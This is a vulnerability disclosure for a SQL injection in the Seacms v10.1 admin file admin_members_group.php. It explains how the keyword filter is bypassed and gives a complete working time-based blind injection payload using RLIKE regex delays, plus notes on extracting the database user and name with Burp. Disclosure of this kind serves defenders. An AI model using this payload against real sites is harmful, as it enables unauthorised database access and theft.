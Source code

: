 # Seacms v10.1 (2020.02.08) latest version SQL injection

Download address on official website: https://www.seacms.net

Through code audit, the vulnerability points are`/5owghc/admin_members_group.php`

Note: after the program is installed, the background directory will be renamed randomly. Here it is changed to `5oghc`

![image-20200227163641920](./img/image-20200227163641920.png)

Line 55 variable $id spliced into SQL query，Follow up GetOne function，Using checksql function to filter the key words of SQL injection for variables，Can be bypassed。Use regular `DOS` RLIKE injection。Principle, using SQL to calculate the regular consumption of computing resources multiple times to produce a delay effect

**Payload**

```
http://10.2.7.9/5owghc/admin_members_group.php?action=edit&id=2%20and%20if(mid(user(),1,1)=%27r%27,concat(rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27))%20RLIKE%20%27(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2bcd%27,1)
```

Use burp to get the current database username.

![image-20200303163844971](./img/image-20200303163844971.png)

![image-20200303202558466](./img/image-20200303202558466.png)

Use burp to get the current database name.![image-20200303200750635](./img/image-20200303200750635.png)

So there is a SQL injection vulnerability